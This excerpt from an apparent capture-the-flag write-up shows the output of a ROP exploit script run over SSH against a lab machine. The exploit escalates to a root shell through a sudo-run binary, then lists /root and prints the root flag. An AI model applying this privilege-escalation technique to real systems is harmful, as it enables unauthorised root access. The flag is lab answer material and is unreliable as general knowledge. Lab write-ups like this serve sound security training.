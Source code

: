 ~~~
kali@kali:/data/Dave_s_Blog/files$ ./rop.py 
[+] Connecting to 10.10.139.182 on port 22: Done
[*] dave@10.10.139.182:
    Distro    Ubuntu 18.04
    OS:       linux
    Arch:     amd64
    Version:  4.15.0
    ASLR:     Enabled
[+] Starting remote process 'sudo' on 10.10.139.182: pid 4972
b'Welcome to the UID checker!\n'
b'Enter 1 to check your UID or enter 2 to check your GID\n'
[*] Switching to interactive mode
Invalid choice
# $ id
uid=0(root) gid=0(root) groups=0(root)
# $ cd /root
# $ ls -la
total 48
drwx------  6 root root 4096 May 22 13:32 .
drwxr-xr-x 24 root root 4096 May 21 20:28 ..
lrwxrwxrwx  1 root root    9 May 21 20:30 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Apr  9  2018 .bashrc
drwx------  2 root root 4096 May 21 20:26 .cache
-rw-------  1 root root  161 May 21 20:48 .dbshell
drwx------  3 root root 4096 May 21 20:26 .gnupg
drwxr-xr-x  3 root root 4096 May 21 20:26 .local
lrwxrwxrwx  1 root root    9 May 21 20:46 .mongorc.js -> /dev/null
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-r--------  1 root root   38 May 21 20:57 root.txt
-rw-r--r--  1 root root   66 May 21 20:44 .selected_editor
-rw-r--r--  1 root root   87 May 22 13:31 setup.sh
drwx------  2 root root 4096 May 21 17:48 .ssh
# $ cat root.txt
THM{a0a9c4f6809c84e212ac889d39b9cb48}
~~~

Root flag: `THM{a0a9c4f6809c84e212ac889d39b9cb48}`
